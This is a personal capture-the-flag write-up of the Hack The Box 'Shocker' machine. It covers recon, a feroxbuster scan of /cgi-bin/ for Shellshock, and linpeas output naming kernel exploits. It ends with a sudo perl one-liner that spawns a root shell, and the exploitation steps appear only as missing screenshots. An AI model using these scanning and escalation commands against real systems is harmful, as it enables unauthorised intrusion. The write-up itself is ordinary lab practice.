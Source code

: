 # Shocker

## Recon
Tags for [this box](https://app.hackthebox.com/machines/108) are: 
> - Perl
> - Injection
> - Web

Only 2 ports exposed: 2222 (ssh), and 80 (apache)

The running version of SSH doesn't have any public exploits, so it seems pretty obvious the target will be a website for this challenge.

## Enumeration
Nothing stood out from the scanning docs. I had to step back and really ask myself some fundamental questions to move forward on this one.

#### What does it do?

I've only been able to see the homepage `index.html` which appears to be a static page with a picture of a bug about to squash itself.

#### What language is it written in?

Based on some feroxbuster output (403 errors) the site seems to have the following filetypes `aspx`, `asp`, `jsp`, `php`.

#### What server software is the application running on?

Apache httpd 2.4.18 (Ubuntu)

### Getting help
I peaked at the walkthrough because I was lost.
No shocker - this machine was built to practice shellshock.  

On apache, the `cgi-bin` folder contains scripts. The scripts are accessed via web, run server side, then returned with an HTTP reply. Shellshock provides input that hijacks the server-side shell run. I also saw in the walkthrough that the target script is `/cgi-bin/user.sh`. 

But I want to prove this with a scan.

### fuzzing for shellshock
Found a shellshock endpoint by running
```bash
feroxbuster -u http://10.10.10.56:80/cgi-bin/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "sh" -v -k -n -o /home/nate/hackthebox/shocker/results/scans/tcp80/tcp_80_http_feroxbuster_cgi-bin.txt
```
![[Pasted image 20220106200355.png]]

## Exploitation

![[Pasted image 20220106202024.png]]

![[Pasted image 20220106204959.png]]

I was able to get user.txt but not enough privs for root.txt

## Privilege Escalation

### Linpeas findings

> Sudo version 1.8.16

> ╔══════════╣ Executing Linux Exploit Suggester 2  
> ╚ https://github.com/jondonas/linux-exploit-suggester-2  
>   
> [1] af_packet  
> 	CVE-2016-8655  
> 	Source: http://www.exploit-db.com/exploits/40871  
> [2] exploit_x  
> 	CVE-2018-14665  
> 	Source: http://www.exploit-db.com/exploits/45697  
> [3] get_rekt  
> 	CVE-2017-16695  
> 	Source: http://www.exploit-db.com/exploits/45010  

> ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
> ╚https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
> Matching Defaults entries for shelly on Shocker:  
> env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
> 
> User shelly may run the following commands on Shocker:  
> (root) NOPASSWD: /usr/bin/perl 

Might be able to use the following from GTFO bins to get root.
```
sudo perl -e 'exec "/bin/sh";'
```

![[Pasted image 20220106210114.png]]
